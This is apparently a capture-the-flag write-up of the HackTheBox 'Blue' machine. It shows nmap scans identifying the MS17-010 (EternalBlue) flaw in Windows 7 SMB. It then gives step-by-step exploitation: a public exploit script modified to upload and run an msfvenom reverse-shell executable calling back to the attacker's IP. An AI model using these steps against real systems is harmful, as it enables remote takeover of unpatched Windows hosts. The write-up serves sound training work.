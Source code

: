 ```yaml
---
description: Blue box from HackTheBox write up.
---
```


# Blue

## Nmap

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- --min-rate 1000 <MACHINE_IP> 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-26 14:54 EDT
Nmap scan report for <MACHINE_IP>
Host is up (0.048s latency).
Not shown: 65526 closed ports
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 35.47 seconds
           Raw packets sent: 65843 (2.897MB) | Rcvd: 65673 (2.627MB)
```

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/Blue]
└─$ sudo nmap -sC -sV -p135,139,445,49152,49153,49154,49155,49156,49157 <MACHINE_IP>
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-26 16:06 EDT
Nmap scan report for <MACHINE_IP>
Host is up (0.048s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -19m51s, deviation: 34m36s, median: 6s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-09-26T21:07:40+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-26T20:07:39
|_  start_date: 2021-09-26T18:54:31

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.74 seconds
```

The most interesting thing is SMB. Let's dig a bit.

## Eternal Blue?

Since the SMB service is running in a Windows 7 machine I wanted to check if could be vulnerable to Eternal Blue:

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/Blue]
└─$ sudo nmap --script smb-vuln* -p445 <MACHINE_IP>
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-26 17:22 EDT
Nmap scan report for <MACHINE_IP>
Host is up (0.048s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Nmap done: 1 IP address (1 host up) scanned in 13.00 seconds

```

It is cool! Now we can go for the easy path using the Metasploit exploit: `windows/smb/ms17_010_eternalblue` or try to own the machine searching for the exploit ourselves, I guess you know my preference.

## Getting access

First, we need an exploit for this so using `searchsploit` we can get what we need:

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/Blue/exploit]
└─$ searchsploit ms17-010                                                                   
--------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                       |  Path
--------------------------------------------------------------------------------------------------------------------- ---------------------------------
Microsoft Windows - 'EternalRomance'/'EternalSynergy'/'EternalChampion' SMB Remote Code Execution (Metasploit) (MS17 | windows/remote/43970.rb
Microsoft Windows - SMB Remote Code Execution Scanner (MS17-010) (Metasploit)                                        | windows/dos/41891.rb
Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)                                     | windows/remote/42031.py
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)                 | windows/remote/42315.py
Microsoft Windows 8/8.1/2012 R2 (x64) - 'EternalBlue' SMB Remote Code Execution (MS17-010)                           | windows_x86-64/remote/42030.py
Microsoft Windows Server 2008 R2 (x64) - 'SrvOs2FeaToNt' SMB Remote Code Execution (MS17-010)                        | windows_x86-64/remote/41987.py
--------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

I would go with the `windows/remote/42315.py` one so executing: `searchsploit -m windows/remote/42315.py` we will copy the exploit to our current directory. Now it is time to configure the exploit:

1. Get `mysmb.py` from the exploit link.
2. In the line 36 configure the username as `guest` (Using `smbclient` you can check that anonymous login is allowed for the $IPC share).
3. Generate a Windows reverse shell: `msfvenom -p windows/shell_reverse_tcp LHOST=<ATACKER_IP> LPORT=8080 -f exe > revshell.exe`
4. Go the line 913 and replace the `smb_pwn` function with this:
```python
def smb_pwn(conn, arch):
    smbConn = conn.get_smbconnection()

    print('exec revshell')

    smb_send_file(smbConn, './revshell.exe', 'C', '/revshell.exe')
    service_exec(conn, r'cmd /c , c:\revshell.exe')
```
5. Spin up a listener in the 8080 port (Or whaterver port you configure the reverse shell with)
6. Run the exploit with `python 42315.py <MACHINE_IP>` to get a shell!

Since Eternal Blue give access as `system` we have finished and can get the flags:

```
C:\Users\haris\Desktop\user.txt
C:\Users\Administrator\Desktop\root.txt
```

